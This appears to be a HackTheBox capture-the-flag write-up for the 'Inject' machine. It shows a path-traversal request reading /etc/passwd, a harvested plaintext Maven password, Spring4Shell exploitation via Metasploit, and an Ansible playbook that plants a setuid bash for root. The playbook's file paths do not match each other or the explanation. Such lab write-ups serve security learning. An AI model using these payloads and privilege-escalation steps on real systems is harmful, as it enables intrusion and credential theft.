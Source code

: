 ```yaml
---
title: HackTheBox - Inject
image:
  path: /assets/images/htb/Inject/Inject.png
date: 2023-05-05 14:00:00 +0800
categories: HackTheBox
tags: [lfi, ansible playbook, spring]
toc: true
---
```


| Release Date | 11 Mar 2023 |
| Retire Date |  |
| Solving Date | 05 May 2023 |
| Difficulty | Easy |
| OS | Linux |
| Points | 20 |
| Creator | <script src="http://www.hackthebox.eu/badge/image/396413"></script> |

---

# Enumeration

## port scanning

```bash
export ip=10.10.11.204

nmap -Pn -sV $ip
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-26 19:01 EET
Nmap scan report for 10.10.11.204
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca Nagios NSCA
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.26 seconds
```

## website on port 8080

- it seems it’s still in the development, because there is some functions that does not exists like “Log in” and “register”

![Untitled](/assets/images/htb/Inject/Untitled.png)

- we can’t open the blogs or read the comments, just knowing the author (admin, Brandon Auger)

![Untitled](/assets/images/htb/Inject/Untitled%201.png)

### upload page

- there is an upload page at `http://10.10.11.204:8080/upload`
- let’s try to upload an image and see what’s happening then try to upload a malicious file
- after uploading an image the website shows “View your Image” which redirects to `http://10.10.11.204:8080/show_image?img=image_name.png`, probably it’s vulnerable to Local File inclusion

### LFI PoC

```bash
curl http://10.10.11.204:8080/show_image?img=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

---

# Exploitation

- let’s use burp repeater to make it easy
- I checked the common places like the home directory, found phil and frank, not ssh keys found
- an interesting file I found is Apache Maven configuration file `settings.xml` in `/home/frank/.m2` directory

![Untitled](/assets/images/htb/Inject/Untitled%202.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

- after some enumeration, we found that the website uses Spring web service version `2.6.6` which is vulnerable to Spring4Shell RCE ****CVE-2022-22965****

## Initial Access

- After trying some exploits from GitHub, I found this Metasploit exploit that worked properly

![Untitled](/assets/images/htb/Inject/Untitled%203.png)

- great, now we have a shell, let’s try the credentials we found in [settings.xml](#exploitation) to switch the user to phil
    
    ![Untitled](/assets/images/htb/Inject/Untitled%204.png)
    

## user.txt

![Untitled](/assets/images/htb/Inject/Untitled%205.png)

- after a little bit of Enumeration, we found an automation directory in `/opt/`

# Privilege Escalation

- there is an ansible playbook in `/opt/automation/tasks`

## Ansible Playbooks

- So, What is the Ansible Playbook: Ansible playbook is a collection of tasks that are written in YAML format and executed by Ansible to automate the configuration and management of systems. Playbooks are used to define a set of instructions, or "plays," that Ansible should follow to achieve a desired state on the target system.
- Playbooks can be used to automate a wide range of tasks, such as deploying applications, configuring servers, and managing network devices. Playbooks can also be used to orchestrate complex workflows across multiple systems, allowing for the automation of entire IT processes.
- we are going to create an Ansible playbook and elevate our privileges

```yaml
- hosts: localhost
```

This line specifies the target hosts that the playbook will be run on. In this case, the playbook will be run on the local machine (i.e. **`localhost`**).

```yaml
  tasks:
    - name: PrivEsc
      command: /bin/bash -c "cp /bin/bash /tmp/new && chmod +s /tmp/suidbash"
      become: true
```

This section specifies the tasks that Ansible will execute on the target host(s). In this case, there is only one task defined:

- **`name: PrivEsc`**: This line specifies the name of the task. It is used to identify the task in the output of the Ansible playbook.
- **`command: cp /bin/bash /tmp/suidbash && chmod +s /tmp/suidbash`**: This line specifies the command to be executed. In this case, the command copies the **`bash`** binary from **`/bin/bash`** to **`/tmp/suidbash`** and sets the setuid bit on the copied binary. This effectively gives anyone who executes **`/tmp/suidbash`** the permissions of the owner of the file (which is root).
- **`become: true`**: This line specifies that Ansible should execute the task with escalated privileges. In this case, it will use **`sudo`** to elevate the privileges of the user running the playbook to become the root user.

![Untitled](/assets/images/htb/Inject/Untitled%206.png)

## root.txt

![Untitled](/assets/images/htb/Inject/Untitled%207.png)

---

![Owned Inject from Hack The Box!](/assets/images/htb/Inject/achievement.png)

[Owned Inject from Hack The Box!](https://www.hackthebox.com/achievement/machine/664097/533)